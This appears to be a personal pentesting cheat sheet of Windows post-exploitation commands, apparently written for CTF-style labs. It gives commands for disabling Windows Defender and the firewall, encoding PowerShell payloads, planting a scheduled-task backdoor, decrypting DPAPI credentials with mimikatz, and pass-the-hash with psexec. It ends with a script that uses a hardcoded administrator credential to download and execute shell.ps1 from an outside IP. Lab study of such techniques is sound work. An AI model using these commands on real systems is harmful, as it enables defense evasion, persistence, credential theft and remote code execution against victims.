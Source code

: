 ## Avoid problems with quotes
- """ powershell <"command"> """


## Shutdown WIndows defender (Need NT AUTHORITY\SYSTEM rights):
#### DOS
```bat
# Stop windows defender
sc config WinDefend start= disabled
sc stop WinDefend

# Start Windows defender at boot up
sc config WinDefend start= auto
sc start WinDefend
sc query WinDefend
```

#### Powershell
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
Set-MpPreference -DisableRealtimeMonitoring $false
```
## Disable Windows Firewall
```bat
netsh firewall set opmode disable
```

## Encode and execute powershell commands:
Converting a powershell script into a base64 format to avoid bad characters:
```bash
echo <payload.ps1> | iconv -t UTF-16LE | base64 -w0 | xclip -selection clipboard
```

#### Executing encoded powershell
```powershell
powershell -enc <payload_base64>
```

## VHD (virtual host disk) files:
```bash
# list all the files		
7z | <file.vhd>
# mount a vhd file on linux:
guestmount -add <vhd file> --inspector --ro -v <mount_point>
```

## OST (Microsoft Outlook email folder) files:
```bash
# This will give us a outlook email folder
# We can open it using evolution
readpst <ost_file>
```

## Create a backdoor (Scheduled task)
#### Link:
- https://www.howtogeek.com/51236/how-to-create-modify-and-delete-scheduled-tasks-from-the-command-line/
```powershell
# Query current task:
SchTasks /query

# Create a New task:
SchTasks /Create /SC DAILY /TN "My Task" /TR "C:RunMe.bat" /ST 09:00  
   # /Create: Create a new task
   # /SC: Planification frequence
   # /TN: task name
   # /TR: Path to binary to execute
   # /ST: Start time

# Modify a task:
SchTasks /Change /TN "My Task" /ST 14:00
   # /Change: Modify a current task
   # /TN: Task name
   # /ST: New start time

# Delete a task:
SchTasks /Delete /TN "My Task"
   # /TN: Task name
```

## DPAPI
- Video Access de IPPSEC

#### files needed
```powershell
# Download the files
cd c:\users\<username>\appdata\Roaming\Microsoft\Protect\<user_sid>
# Download the files
cd c:\users\<username>\appdata\Roaming\Microsoft\Credentials
  
# Get user SID
```
#### Decrypt DPAPI MASTERKEY: Using mimikatz (Need a Windows box)
- Get all the downloaded files
- Get a version of Mimikatz

In mimikatz :
```powershell
dpapi::masterkey /in:<encrypted_master_key_file> /sid:<sid_of_user> /password:<user_password>
```
#### Decrypt the file (Masterkey stored inside the mimikatz session)
```powershell
dpapi::cred /in:<encrypted_file> 
```

## Windows Stream (data stream)
#### Link
- https://blog.malwarebytes.com/101/2015/07/introduction-to-alternate-data-streams/
#### Commands
```powershell
Get-Item -path <filename> -stream *
powershell (Get-Content hm.txt -Stream root.txt)
```
#### It is possible to access and thus read the content of “Alternate Data Stream” through SMB commands
```powershell
allinfo “<filename>”
```
#### Get the content of an alternate data stream
```powershell
get “<filename>”:<name_of_the_stream>
```
#### Note:
- It is a pretty good way to hide sensitive informations. In general, it is mostly used by malwares.

	
## PSEXEC
```python
# Execute Commands on remote system (need credentials and read write access to ADMIN$ share folder)
python psexec.py administrator@<ip> 
# We can also simply pass the NTML hash to psexec and get a shell:
python psexec -hashes <hash>:<hash> administrator@10.10.10.10 
```
	
It is possible, if we have the hash of a golden ticket to create a new user with admin rights:
- https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a
   - Section: Overpass The Hash/Pass the key (PTK)
		
		
## MDB files (Access DB file)
```bash
# Interact with the db using T-SQL
mdb-sql <file.mdb>
mdb-tables <file.mdb>
```
## As NT AUTHORITY, we can start the RDP protocol:
Powershell:  
```powershell
# Set the firewall to down state
netsh advfirewall set allprofiles state off  
```
Configure a registry key to start the RDP service:  
- [https://pureinfotech.com/enable-remote-desktop-powershell-windows-10/](https://pureinfotech.com/enable-remote-desktop-powershell-windows-10/)  

```bash
# Connect to the instance  
xfreerdp /v:<machine_name> /u:<username> /p:<password>
```

## RUNAS in Powershell
```powershell
$username = "BART\Administrator"
$password = "3130438f31186fbaf962f407711faddb"
$secstr = New-Object -TypeName System.Security.SecureString
$password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $secstr
Invoke-Command -ScriptBlock { IEX(New-Object Net.WebClient).downloadString('http://10.10.15.48:8083/shell.ps1') } -Credential $cred -Computer localhost
```